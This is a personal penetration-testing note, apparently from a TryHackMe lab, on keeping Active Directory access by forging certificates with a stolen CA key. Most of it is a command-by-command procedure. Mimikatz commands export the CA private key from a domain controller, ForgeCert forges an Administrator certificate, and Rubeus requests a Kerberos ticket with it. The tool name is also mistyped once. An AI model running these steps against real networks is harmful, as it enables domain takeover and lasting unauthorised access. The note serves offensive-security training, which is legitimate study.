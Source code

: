 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#mimikatz #rubeus 
- We can use certificates to maintain persistence
- Valid certificate can be used for client authentication to get TGT.
- To prevent this form persistence, blue team needs to revoke the certificate. This is the only way to defend.
# Exploitation
- We need to get the private key of the root CA's certificate, after which we can create our own certificate.
- Usually the key is protected by the HSM (Hardware Security Module).
- If HSM is not used, [DPAPI](../../Windows/Windows%20Internals/Uncategorized/DPAPI.md) is used. In such case we can use mimikatz and other tools.
- List certificates stored on the Domain Controller using mimikatz
```powershell
crypto::certificates /systemstore:local_machine
```
- Patching to make the private key exportable
```powershell
privilege::debug
crypto::capi
crypto::cng
```
- Exporting the certificates now
```powershell
crypto::certificates /systemstore:local_machine
# this will export the certificate in .der and .pfx format
# password for these CA cert is "mimikatz"
```
- Now we can sign our own certificate using the `ForgeCert.exe` tool.
```powershell
.\ForceCert.exe --CaCertPath ca-cert.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Passw0rd123
```
- The new certificate can be used to ask for a TGT from the domain controller
```powershell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:fullAdmin.pfx /password:Passw0rd123 /outfile:tgt.kirbi /domain:za.tryhackme.loc /dc:10.10.10.10
```